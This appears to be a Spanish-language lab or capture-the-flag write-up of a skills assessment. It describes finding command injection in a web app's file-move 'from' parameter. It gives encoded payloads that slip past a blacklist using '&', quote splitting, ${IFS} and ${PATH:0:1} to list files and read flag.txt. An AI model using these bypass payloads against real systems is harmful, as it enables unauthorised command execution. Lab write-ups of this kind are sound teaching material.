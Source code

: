 # SKILL ASSESTMENT

## SCOPE

- [http://178.128.37.153:30153/](http://178.128.37.153:30153/)

## WRITEUP 

Ingresamos a la pagina y el login:

![[Pasted image 20230109150916.png]]

>[!note]
>Para encontrar el punto de inyeccion hay que interactuar con la pagina y ver que parametros parece que se estan usando como argumento o parametro de un comando, de ahi hay que probar varios metodos en cada parametro, esto algo moroso pero es la unica forma de encontrar.

vamos a mover un archivo a la carpeta:

en cualquier archivo presionamos esto:

![[Pasted image 20230109153412.png]]


![[Pasted image 20230109153450.png]]

resultado:

![[Pasted image 20230109153627.png]]

el parametro **from** es vulnerable a command injection, **se probo los diferentes payload y tipos de bypass con este parametro. Se identifico que el caracter & estaba permitido y habia blacklist de caracteres y comandos, por lo que el payload que funciona es:**

```bash
%26l's' #&ls
```

![[Pasted image 20230109154012.png]]

ller la bandera:

```bash
%26c'a't${IFS}${PATH:0:1}flag.txt #cat /flag.txt
```

![[Pasted image 20230109154159.png]]

>[!tip]
>Podemos intentar descubrir automaticamente este ataque con **commix**

